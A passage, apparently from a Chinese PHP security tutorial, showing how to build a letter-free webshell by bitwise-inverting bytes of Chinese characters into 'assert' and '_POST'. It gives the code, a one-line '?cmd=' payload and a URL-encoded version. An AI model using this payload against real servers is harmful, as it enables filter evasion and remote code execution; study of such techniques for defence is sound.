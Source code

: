 根据上面这个POC，我们可以知道，由"极区区皮十勺"可以得到"assert";由"寸小欠立"可以得到"POST"可以得到一个exp：

```php
<?php
$_++;   //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
$____ = '_';   //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;   //$_ = $_POST
$___($_[_]);   //assert($_POST[_])

写到一起：
?cmd=$_++;$__ = "极";$___ = ~($__{$_});$__ = "区";$___ .= ~($__{$_});$___ .= ~($__{$_});$__ = "皮";$___ .= ~($__{$_});$__ = "十";$___ .= ~($__{$_});$__ = "勺";$___ .= ~($__{$_});$____ = '_';$__ = "寸";$____ .= ~($__{$_});$__ = "小";$____ .= ~($__{$_});$__ = "欠";$____ .= ~($__{$_});$__ = "立";$____ .= ~($__{$_});$_ = $$____;$___($_[_]);

同样url编码一下：(url编码就是它的16进制编码前面加个%哈)
?cmd=%24_%2B%2B%3B%24__%20%3D%20%22%E6%9E%81%22%3B%24___%20%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8C%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%9A%AE%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8D%81%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8B%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24____%20%3D%20'_'%3B%24__%20%3D%20%22%E5%AF%B8%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%B0%8F%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E6%AC%A0%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%AB%8B%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24_%20%3D%20%24%24____%3B%24___(%24_%5B_%5D)%3B
```

成功执行命令，不过由于相同的原因，我们需要对exp进行URL编码才能正常使用。
 **这里还有一个需要注意的点是在PHP5下我们需要使用:**

```php
$__ = "欠";
$____ .= ~($__{$_});
```

这种写法而不能直接使用:
